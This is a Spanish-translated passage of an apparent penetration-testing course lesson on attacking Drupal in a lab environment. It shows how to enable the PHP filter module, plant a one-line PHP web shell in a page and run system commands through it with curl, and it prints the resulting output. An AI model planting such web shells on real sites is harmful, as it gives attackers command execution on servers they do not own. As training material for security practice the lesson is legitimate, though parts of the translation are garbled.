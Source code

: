 # Attacking Drupal

Ahora que hemos confirmado que nos enfrentamos a Drupal y hemos hecho las huellas digitales de la versión y veamos qué configuraciones erróneas y vulnerabilidades podemos descubrir para intentar obtener acceso interno a la red.

A diferencia de algunos CMS ', obtener un shell en un host de Drupal a través de la consola de administración no es tan fácil como solo editar un archivo PHP que se encuentra dentro de un tema o cargar un script PHP malicioso.

---

# **Aprovechando el módulo de filtro PHP**

En versiones anteriores de Drupal (antes de la versión 8), era posible iniciar sesión como administrador y habilitar el`PHP filter`Módulo, que "permite evaluar el código/fragmentos PHP integrado".

![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

Desde aquí, podríamos marcar la casilla de verificación al lado del módulo y desplazarnos hacia abajo hasta`Save configuration`. A continuación, podríamos ir al contenido -> Agregar contenido y crear un`Basic page`.

![](https://academy.hackthebox.com/storage/modules/113/basic_page.png)

Ahora podemos crear una página con un fragmento de PHP malicioso como el siguiente. Llamamos el parámetro con un hash MD5 en lugar del común`cmd`Para entrar en la práctica de no dejar una puerta abierta a un atacante durante nuestra evaluación. Si usamos el estándar`system($_GET['cmd']);`Nos abrimos a un atacante de "conducir" que potencialmente se encuentra con nuestro shell web. Aunque es poco probable, ¡mejor seguro que curar!

Código:php

```php
<?phpsystem($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

![](https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png)

También queremos asegurarnos de establecer`Text format`desplegable a`PHP code`. Después de hacer clic en Guardar, seremos redirigidos a la nueva página, en este ejemplo`http://drupal-qa.inlanefreight.local/node/3`. Una vez guardado, podemos solicitar comandos de ejecución en el navegador agregando`?dcfdd5e021a869fcc6dfaef8bf31377e=id`Al final de la URL para ejecutar el`id`comandar o usar`cURL`en la línea de comando. Desde aquí, podríamos usar una línea de una línea de una línea para obtener acceso a la carcasa inversa.

Atacando a Drupal

```
xnoxos@htb[/htb]$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
